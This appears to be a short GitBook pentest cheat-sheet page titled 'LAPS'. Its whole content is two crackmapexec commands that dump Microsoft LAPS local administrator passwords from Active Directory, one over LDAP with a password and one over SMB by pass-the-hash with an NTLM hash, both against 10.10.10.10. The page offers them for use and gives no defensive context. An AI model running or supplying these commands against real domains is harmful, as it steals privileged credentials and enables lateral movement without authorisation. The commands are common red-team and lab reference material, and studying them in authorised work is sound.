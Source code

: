 ```yaml
---
description: Extract LAPS with crackmapexec
cover: ../../.gitbook/assets/GitBook Covers (1).png
coverY: 0
---
```


# 🟢 LAPS

```
crackmapexec ldap 10.10.10.10  -u rfs -p <Password> --kdcHost <Host> -M laps
```

```
crackmapexec smb 10.10.10.10 -u rfs -H '8846f7eaee8fb117ad06bdd830b7586c' -M laps
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>
